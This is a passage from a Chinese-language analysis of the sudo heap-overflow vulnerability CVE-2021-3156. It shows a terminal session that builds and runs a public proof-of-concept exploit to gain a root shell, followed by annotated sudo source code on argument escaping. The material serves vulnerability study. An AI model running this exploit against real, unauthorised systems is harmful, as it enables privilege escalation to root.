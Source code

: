 则表示漏洞已经被修复



## 漏洞分析

首先我们使用[exp](https://github.com/blasty/CVE-2021-3156)先执行一下

```
root@c957df720fc7:~/pwn/漏洞/CVE-2021-3156/CVE-2021-3156_blasty# su normal
normal@c957df720fc7:/root/pwn/漏洞/CVE-2021-3156/CVE-2021-3156_blasty$ ls
Makefile  README.md  hax.c  lib.c  libnss_X  sudo-hax-me-a-sandwich
normal@c957df720fc7:/root/pwn/漏洞/CVE-2021-3156/CVE-2021-3156_blasty$ make
rm -rf libnss_X
mkdir libnss_X
gcc -o sudo-hax-me-a-sandwich hax.c
gcc -fPIC -shared -o 'libnss_X/P0P_SH3LLZ_ .so.2' lib.c
normal@c957df720fc7:/root/pwn/漏洞/CVE-2021-3156/CVE-2021-3156_blasty$ ./sudo-hax-me-a-sandwich 1

** CVE-2021-3156 PoC by blasty &lt;peter@haxx.in&gt;

using target: 'Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31'
** pray for your rootshell.. **
[+] bl1ng bl1ng! We got it!
# id
uid=0(root) gid=0(root) groups=0(root),1000(normal)
# exit
normal@c957df720fc7:/root/pwn/漏洞/CVE-2021-3156/CVE-2021-3156_blasty$
```

当`sudo`以`-i,-s`参数启动即`MODE_SHELL,MODE_LOGIN_SHELl`标志启动的时候，`sudo`会使用`\`转义所有的元字符，并重写`argc,argv`

```
//src/parse_args.c/parse_args
if (ISSET(mode, MODE_RUN) &amp;&amp; ISSET(flags, MODE_SHELL)) `{`
  char **av, *cmnd = NULL;
  int ac = 1;

  if (argc != 0) `{`
    /* shell -c "command" */
    char *src, *dst;
    size_t cmnd_size = (size_t) (argv[argc - 1] - argv[0]) +
      strlen(argv[argc - 1]) + 1;

    cmnd = dst = reallocarray(NULL, cmnd_size, 2);
    if (cmnd == NULL)
      sudo_fatalx(U_("%s: %s"), __func__, U_("unable to allocate memory"));
    if (!gc_add(GC_PTR, cmnd))
      exit(1);

    for (av = argv; *av != NULL; av++) `{`// 串联所有的命令参数字符串
      for (src = *av; *src != '\0'; src++) `{`
        /* quote potential meta characters */
        // 用\转义所有的元字符
        if (!isalnum((unsigned char)*src) &amp;&amp; *src != '_' &amp;&amp; *src != '-' &amp;&amp; *src != '$')
          *dst++ = '\\';
        *dst++ = *src;
      `}`
      *dst++ = ' ';
    `}`
    if (cmnd != dst)
      dst--;  /* replace last space with a NUL */
    *dst = '\0';

    ac += 2; /* -c cmnd */
```